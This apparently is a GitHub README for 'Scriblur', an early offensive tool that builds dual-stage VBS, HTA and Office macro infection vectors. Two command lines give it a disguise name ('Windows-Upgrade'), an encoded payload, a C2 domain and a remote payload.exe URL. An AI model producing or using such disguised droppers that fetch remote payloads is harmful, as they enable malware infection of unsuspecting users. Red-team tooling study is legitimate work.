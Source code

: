# Scriblur
The beginnings of a C2 framework. Except minus all the C2 stuff so far. Currently generates
a dual stage VBS infection vector, and a dual stage HTA infection vector. The variables take
into account C2 addresses, Koadic/Empire payloads, and a few delivery mechanisms. The payload
files are output to an aptly named directory "Payloads" that is created if not already present.

# Installation & Usage
Scriblur is a breeze to use. Simply clone the directory, and cd into it.

For the HTA payload:
  python3 scriblur.py -n Windows-Upgrade -p b64encodedpayload -c amazon.com/c2/domain

# HTA Example
![alt text](https://github.com/nins3i/Scriblur/blob/master/hta.png)

For the Macro Subroutine:
  python3 scriblur.py -n Windows-Upgrade -e amazon.com/final/payload.exe

# Macro Example
![alt text](https://github.com/nins3i/Scriblur/blob/master/macro.png)
